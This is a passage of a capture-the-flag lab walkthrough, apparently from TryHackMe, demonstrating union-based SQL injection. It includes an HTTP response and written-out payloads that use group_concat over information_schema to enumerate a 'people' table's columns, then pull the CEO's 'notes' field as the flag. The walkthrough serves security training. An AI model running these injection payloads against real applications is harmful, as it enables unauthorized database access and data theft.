 Looking through the returned response, we can see that the first column name (`id`) has been inserted into the page title:

The "id" column name in the title of the response

```html
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 16 Aug 2021 22:12:36 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Front-End-Https: on
Content-Length: 3360


<!DOCTYPE html>
<html lang=en>
    <head>
        <title>
            About | id None
        </title>
-----
```

We have successfully pulled the first column name out of the database, but we now have a problem. The page is only displaying the first matching item — we need to see all of the matching items.

Fortunately, we can use our SQLi to group the results. We can still only retrieve one result at a time, but by using the `group_concat()` function, we can amalgamate all of the column names into a single output:  
`/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"`

This process is shown below:

![table names in the title](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/78495a1c1c84ce8d80cba18c48d924eb.png align="left")

We have successfully identified eight columns in this table: `id`, `firstName`, `lastName`, `pfpLink`, `role`, `shortRole`, `bio`, and `notes`.

Considering our task, it seems a safe bet that our target column is `notes`.

Finally, we are ready to take the flag from this database — we have all of the information that we need:

* The name of the table: `people`.
    
* The name of the target column: `notes`.
    
* The ID of the CEO is `1`; this can be found simply by clicking on Jameson Wolfe's profile on the `/about/` page and checking the ID in the URL.
    

Let's craft a query to extract this flag:  
`0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1   `

Hey presto, we have a flag!
